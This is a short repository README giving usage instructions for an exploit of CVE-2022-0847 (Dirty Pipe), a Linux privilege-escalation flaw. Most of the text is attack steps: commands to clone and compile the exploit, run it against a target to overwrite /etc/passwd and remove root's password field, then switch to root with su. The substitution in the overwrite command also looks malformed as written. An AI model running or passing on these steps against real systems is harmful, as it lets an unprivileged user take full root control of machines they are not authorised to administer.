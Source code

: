 # Dirty Pipe - CVE-2022-0847

This is simply the code and instructions for how to use Max Kellermann's exploit for CVE-2022-0847 (known as Dirty Pipe).

Please go to https://dirtypipe.cm4all.com/ to read more about how to exploit works!

## How to use
1. Download and compile the exploit binary
```
git clone https://github.com/0xIronGoat/dirty-pipe.git
cd dirty-pipe
gcc exploit.c -o exploit
```

2. On the target, run the binary
```
./exploit /etc/passwd 1 "${$(cat /etc/passwd)/root:x/oot:}"
```

3. Switch to root
```
su
```
![dirtypipe](https://user-images.githubusercontent.com/14928858/157273381-d48fa680-74d1-4b9c-bff9-5f5a108cd279.png)
